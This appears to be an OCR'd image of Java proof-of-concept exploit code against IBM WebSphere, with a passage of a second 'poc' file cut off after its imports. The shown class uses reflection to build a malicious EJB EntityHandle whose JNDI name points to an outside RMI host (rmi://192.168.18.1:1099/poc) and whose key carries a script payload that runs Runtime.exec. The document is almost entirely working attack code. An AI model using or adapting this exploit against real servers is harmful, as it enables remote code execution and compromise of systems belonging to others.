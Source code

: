 ```java

import javax.ejb.Handle;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.RemoteException;
import java.util.Properties;

class EJSWrapperS extends EJSWrapper {
    @Override
    public Handle getHandle() throws RemoteException {
        Handle var2 = null;
        try {
            SessionHome sessionHome = new SessionHome();
            J2EEName j2EEName = new J2EENameImpl("aa", "aa", "aa");
            Field j2eeName = EJSHome.class.getDeclaredField("j2eeName");
            j2eeName.setAccessible(true);
            j2eeName.set(sessionHome, j2EEName);
            Field jndiName = sessionHome.getClass().getSuperclass().getDeclaredField("jndiName");
            jndiName.setAccessible(true);
            jndiName.set(sessionHome, "rmi://192.168.18.1:1099/poc");
            Serializable key = "\"a\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('cmd.exe notepad')\")";
            BeanId beanId = new BeanId(sessionHome, key, true);
            BeanMetaData beanMetaData = new BeanMetaData(1);
            beanMetaData.homeInterfaceClass = com.ibm.ws.batch.CounterHome.class;
            Properties initProperties = new Properties();
            initProperties.setProperty("java.naming.factory.object", "org.apache.wsif.naming.WSIFServiceObjectFactory");
            Constructor c = EntityHandle.class.getDeclaredConstructor(BeanId.class, BeanMetaData.class, Properties.class);
            c.setAccessible(true);
            var2 = (Handle) c.newInstance(beanId, beanMetaData, initProperties);
        } catch (Exception e) {
            e.printStackTrace();
        }
        return var2;
    }
}
// poc
package org.example;

import com.ibm.CORBA.iiop.CDROutputStream;
import com.ibm.CORBA.iiop.ClientDelegate;
import com.ibm.CORBA.iiop.IOR;
import com.ibm.CORBA.iiop.ORB;
import com.ibm.WsnOptimizedNaming._NamingContextStub;
import com.ibm.rmi.Profile;
import com.ibm.rmi.ServiceContext;
import com.ibm.rmi.iiop.Connection;
import com.ibm.rmi.iiop.GIOPImpl;
import com.ibm.ws.naming.jndicos.CNContextImpl;
import com.ibm.ws.naming.util.WsnInitCtx;
import org.apache.wsif.providers.ejb.WSIFPort_EJB;
import org.omg.CORBA.Any;
import org.omg.CORBA.portable.ObjectImpl;
import org.omg.CosTransactions.PropagationContext;
import org.omg.CosTransactions.PropagationContextHelper;
import org.omg.CosTransactions.TransIdentity;
import org.omg.CosTransactions.otid_t;

import javax.naming.Context;
```